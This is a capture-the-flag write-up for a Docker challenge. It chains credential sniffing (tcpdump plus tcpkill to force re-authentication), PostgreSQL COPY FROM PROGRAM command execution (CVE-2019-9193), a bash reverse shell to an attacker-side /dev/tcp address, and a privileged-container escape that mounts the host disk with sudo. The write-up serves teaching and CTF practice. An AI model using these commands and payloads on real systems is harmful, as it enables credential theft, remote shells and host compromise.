










# Contain Me If You Can


**Category:** Cloud Security / Docker
**Difficulty:** Hard

**Vulnerability:** Plaintext Credential Sniffing + PostgreSQL RCE (CVE-2019-9193) + Privileged Container Escape

## Executive Summary
This challenge simulates a containerized environment with an adjacent Database-as-a-Service (DBaaS) instance. The objective is to move laterally into the database container and exploit its `--privileged` configuration to break the container boundary, mount the underlying host filesystem, and extract the flag.



##  1: Network Discovery

Upon landing in a blind, restricted container, the immediate priority is to understand the local topology and identify target services.

We ran netstat -ano to list active routing and connections. This revealed an active, established TCP connection from our container (172.19.0.3) to an adjacent container (172.19.0.2) on port 5432 (PostgreSQL).

Minimal CTF containers usually lack tools like nmap or ping. Relying on native OS connection tables (netstat or checking /proc/net/tcp) is the stealthiest and most reliable way to find where the container usually talks. We noted the connection was already ESTABLISHED, meaning the authentication  had already concluded.

Using `netstat`, we identified an active, established TCP connection to an adjacent container:
```bash
netstat -ano
# Output revealed:
# tcp 0 0 172.19.0.3:52900 172.19.0.2:5432 ESTABLISHED
```




* **Attacker Container:** `172.19.0.3`
* **Target Container:** `172.19.0.2` (Running PostgreSQL on port `5432`)

Because the connection was already `ESTABLISHED`, any sniffing at this stage would only capture periodic "keepalive" SQL queries (like `SELECT now();`), but no authentication data.


##  2: Forced Re-Authentication (Network Attack)

To gain access to the database, we needed the service credentials.

We started a background packet capture (tcpdump -i eth0 host 172.19.0.2 and port 5432 -A > creds.txt &) and then used tcpkill to flood the established TCP session with RST (Reset) packets, severing the connection. Once tcpkill was stopped, we parsed the creds.txt file to extract the plaintext username, database name, and password.

Because the session was already established, simply sniffing the wire would only yield periodic, unauthenticated "keepalive" queries. Internal microservices usually have aggressive auto-reconnect logic. By ruthlessly killing the connection, we forced the automated script to panic and restart the handshake. Since internal Docker bridge networks frequently lack TLS encryption, the reconnection transmitted the authentication payload in plaintext, allowing us to harvest the keys.

**1. Setup the Sniffer**
We started a background packet capture targeting the database port, saving the raw ASCII output to a file:
```bash
tcpdump -i eth0 host 172.19.0.2 and port 5432 -A > creds.txt &
```

**2. Sever the Connection**
We used `tcpkill` to forcibly terminate the established session between our container and the database container:
```bash
tcpkill -i eth0 host 172.19.0.2 and port 5432
```




*The `tcpkill` utility flooded the session with RST (Reset) packets, killing it instantly.*

**3. Harvest the Credentials**
Once `tcpkill` was stopped, the automated script on the other end panicked and immediately reconnected. Because PostgreSQL sends the initial startup message (and sometimes the password, depending on config) in plaintext, our `tcpdump` caught the handshake. 

By analyzing `creds.txt`, we extracted the following credentials:




* **Username:** `user`
* **Database:** `mydatabase`
* **Password:** `SecretPostgreSQLPassword`


##  3: Lateral Movement & RCE (CVE-2019-9193)

Armed with credentials (user / mydatabase / SecretPostgreSQLPassword), we authenticated to the database.

We logged into the target using psql. Instead of relying on a standard netcat reverse shell, we abused PostgreSQL’s COPY FROM PROGRAM feature (CVE-2019-9193) to run OS commands and output the results directly into a database table, reading them via SELECT * FROM cmd_exec;.

The COPY FROM PROGRAM vulnerability allows any user with table creation privileges to execute arbitrary OS commands as the system's postgres user. While our initial instinct was to spawn a reverse bash shell, reverse shells in heavily stripped containers often lack a proper PTY (Pseudo-Terminal). This results in a "dumb shell" where standard input/output is broken, causing commands to fail silently. By pivoting to Direct SQL Execution, we used the database itself as a stable, reliable Command-and-Control (C2) channel, bypassing the environmental restrictions of the container.


With valid credentials, we authenticated to the target database container:
```bash
psql -h 172.19.0.2 -U user -d mydatabase
```

Once inside, we weaponized **CVE-2019-9193**, which abuses PostgreSQL's `COPY FROM PROGRAM` feature to execute arbitrary OS commands. 

Initially, we attempted to spawn a reverse shell back to our container:
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/172.19.0.3/4444 0>&1"';
```



While the connection was successfully caught, the reverse shell was severely restricted ("dumb shell") and lacked a proper TTY, causing commands like `id` and `fdisk` to hang and fail silently.

**The Pivot (Direct SQL Execution):**
To bypass the broken reverse shell, we abandoned netcat and used the database itself as our command-and-control channel. By running commands inside `COPY FROM PROGRAM` and selecting the output, we achieved stable Remote Code Execution (RCE).


##  4: Host Discovery & Privileged Escape


We had code execution on the DBaaS container. The final goal was to access the underlying host machine.

1. We queried /proc/partitions via SQL to identify the host's primary 1GB block device (/dev/vdb).
2. We ran id via SQL and discovered the postgres user belonged to the wheel group.
3. We crafted a final, fail-proof SQL payload wrapping multiple commands in bash with sudo, and crucially appended exit 0 to the end of the execution string:
COPY cmd_exec FROM PROGRAM 'bash -c "sudo mount /dev/vdb /tmp/mnt123 || sudo mount /dev/vda /tmp/mnt123; sudo cat /tmp/mnt123/flag; exit 0" 2>&1';

 The Vulnerability: The container was deployed with --privileged mode. This fatal misconfiguration strips away cgroup and AppArmor protections, exposing the host's actual hardware devices directly to the container's /dev directory.

The Execution: We couldn't use standard tools like fdisk to find the drive because they require root, so we read the kernel's partition table directly (/proc/partitions). Seeing the wheel group in our id output confirmed we had passwordless sudo rights to execute the mount.

The exit 0 Trick: PostgreSQL is transactional. If any command inside the COPY FROM PROGRAM execution throws a non-zero exit code (for example, if mount /dev/vdb fails and we have to fall back to vda), PostgreSQL considers it a fatal error and instantly rolls back the transaction. This deletes all captured output before we can read it. By wrapping the commands in bash -c and forcing an exit 0 at the very end, we tricked PostgreSQL into thinking the execution was perfectly successful, forcing it to commit our flag to the table for extraction.


**1. Hardware Enumeration**

We listed the attached drives on the underlying host by querying `/proc/partitions` through SQL:
```sql
TRUNCATE TABLE cmd_exec;
COPY cmd_exec FROM PROGRAM 'cat /proc/partitions';
SELECT * FROM cmd_exec;
```




*Result:* We identified two main host block devices: `vda` (138MB) and `vdb` (1GB). `vdb` was the likely target for the host's root filesystem.

**2. Privilege Escalation**
Attempting to mount the drive directly resulted in a `permission denied` error. However, running `id` through the SQL exploit revealed our user privileges:

`uid=70(postgres) gid=70(postgres) groups=10(wheel),70(postgres)`




Being part of the `wheel` group confirmed that the `postgres` user had passwordless `sudo` privileges.

**3. The Final Escape Payload**

We crafted a final, fail-proof SQL execution block that leveraged `sudo` to:
1. Create a mount point (`/tmp/mnt123`).
2. Mount the underlying host disk (`/dev/vdb` or `/dev/vda`).
3. Read the contents of `/flag` from the host filesystem.
4. Exit cleanly (`exit 0`) so PostgreSQL would commit the output to the table for us to read.

```sql
TRUNCATE TABLE cmd_exec;
COPY cmd_exec FROM PROGRAM 'bash -c "sudo mount /dev/vdb /tmp/mnt123 || sudo mount /dev/vda /tmp/mnt123; sudo cat /tmp/mnt123/flag; exit 0" 2>&1';
SELECT * FROM cmd_exec;
```



Upon executing the `SELECT` statement, the host filesystem boundary was broken, and the flag was successfully captured. 



[Notes](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Contain_Me/notes "Results")




